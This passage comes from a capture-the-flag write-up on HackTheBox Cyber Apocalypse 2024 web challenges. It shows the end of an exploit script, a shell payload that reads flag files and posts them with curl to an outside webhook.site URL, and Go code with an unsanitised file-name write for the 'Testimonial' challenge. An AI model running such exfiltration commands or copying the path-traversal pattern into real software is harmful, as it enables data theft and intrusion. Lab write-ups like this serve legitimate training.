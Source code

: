 ``` python

		return res

if __name__ == "__main__":
	run = Exploit()
	print(run.exp())
```

Content of the banua.sh file:

``` sh
cat /flag* > /tmp/flag.txt && curl -d @/tmp/flag.txt https://webhook.site/e361f2f5-cc9c-45e5-959e-40639c22efab
```

Run the exploit. If the request does not go through, try running it again:

![Labyrinth Linguist](/images/post/HTBAPOCALYPSE2024_labyrinth1.png)

**Flag**: HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}

**================================================================================================**

## **Testimonial - Web**

**Solving Scenario:**\
Source code analysis reveals that the vulnerable code is in the grpc.go file, specifically in the os.WriteFile function with the filename "customer" and the file content being "testimonial".

grpc.go file:

``` go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```

home.go file handles the submission process when a customer submits a testimonial.

``` go
package handler

import (
	"htbchal/client"
	"htbchal/view/home"
	"net/http"
)

func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
	customer := r.URL.Query().Get("customer")
	testimonial := r.URL.Query().Get("testimonial")
	if customer != "" && testimonial != "" {
		c, err := client.GetClient()
```